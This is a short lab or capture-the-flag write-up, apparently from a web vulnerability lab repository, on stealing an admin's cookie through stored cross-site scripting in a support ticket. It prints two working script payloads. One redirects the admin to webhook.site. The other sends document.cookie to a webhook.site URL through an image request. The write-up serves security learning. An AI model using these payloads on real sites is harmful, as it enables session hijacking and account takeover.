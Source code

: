 # Challange

### In the challenge scenario, there is a support portal and an admin panel, and the objective is to steal the admin's cookie.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/7f520183-0616-4337-9e0c-80f99c846294) ![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/c5ed3da2-3235-41fc-b812-3f915537f5c8)

- In the ticket section, I utilized a payload `<script>window.location.href='<webhook site Url'</script>` that redirects the admin to `webhook.site`. This allows me to steal the admin's ID from the intercepted request on `webhook.site`.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/f496db1d-6f0f-43c2-a837-6c23cdb1b64c)

- Upon logging into the admin panel, an automatic redirection occurs, leading you to a specific URL.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/b624a414-c1e2-42cd-839d-665fd1510341)


- In this payload `<script> var i=new Image; i.src="<webhook.site URL>"+document.cookie;</script>`, I included code to fetch an image from a specified URL. This code also resulted in the cookies being exposed and displayed on the webhook site, allowing me to capture and analyze them.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/aacebd47-c6d6-457a-a767-af2680dd20f6)


- Upon inspecting the results in the webhook.site, we observed the captured information and data that was obtained through the payload and cookies.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/8663dae8-fa66-403f-9709-ec18a772742d)
